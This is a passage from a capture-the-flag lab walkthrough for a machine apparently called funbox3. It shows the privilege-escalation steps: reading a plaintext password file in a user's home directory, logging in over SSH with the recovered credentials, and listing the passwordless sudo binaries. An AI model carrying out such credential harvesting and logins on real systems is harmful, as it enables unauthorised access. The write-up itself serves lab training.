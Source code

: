 ### Escalation

#### User Credential Disclosure

Enumerating the /home directory, we find an interesting file /`home/tony/password.txt`:


```bash
$ ls -l /home
total 4
drwxr-xr-x 2 tony tony 4096 Oct 30 13:11 tony
$ ls -l /home/tony
total 4
-rw-rw-r-- 1 tony tony 70 Jul 31 14:39 password.txt
$
```
Inside of it, we find what looks to be the password for the user next to `ssh`:.

```bash
$ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
$
```

### SSH
We can try to SSH to the target with the credentials `tony:yxcvbnmYYY`, and we succeed:

```bash
kali@kali:~$ ssh -o StrictHostKeyChecking=no tony@192.168.120.224
tony@192.168.120.224's password: 
...
tony@funbox3:~$ id
uid=1000(tony) gid=1000(tony) groups=1000(tony),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
tony@funbox3:~$

```

### Sudo Enumeration

We will first enumerate what this user is able to run with elevated permissions, and we find an array of binaries at our disposal:

```bash
tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
tony@funbox3:~$
```

